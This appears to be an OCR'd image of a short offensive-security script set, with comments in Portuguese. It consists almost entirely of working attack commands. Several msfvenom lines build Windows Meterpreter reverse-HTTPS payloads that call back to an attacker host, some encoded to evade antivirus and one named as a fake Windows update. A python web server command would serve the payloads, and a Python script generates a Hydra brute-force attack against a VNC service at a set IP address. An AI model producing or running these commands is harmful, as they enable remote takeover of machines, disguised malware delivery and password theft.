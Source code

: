 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

# Código foi reiniciado, recriando o script Python para brute force automatizado VNC

import subprocess

ip_alvo = "192.168.1.84"  # Altere para o IP alvo
wordlist_path = "/mnt/data/wordlist_atibaia.txt"

script_content = f"""
import subprocess

ip_alvo = "{ip_alvo}"
wordlist_path = "{wordlist_path}"

print(f"Iniciando brute force VNC contra {{ip_alvo}}...\\n")

comando = [
    "hydra",
    "-P", wordlist_path,
    "-t", "4",
    "-f",
    "-V",
    ip_alvo,
    "vnc"
]

resultado = subprocess.run(comando, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

if "login:" in resultado.stdout or "host:" in resultado.stdout:
    print("\\n====> POSSÍVEL SENHA ENCONTRADA! Resultado:")
    print(resultado.stdout)
else:
    print("Nenhuma senha encontrada ou tentativa falhou.")

print("Brute force VNC concluído.")
"""

with open("/mnt/data/bruteforce_vnc.py", "w") as f:
    f.write(script_content)

print("Script Python para brute force VNC criado como 'bruteforce_vnc.py'.")




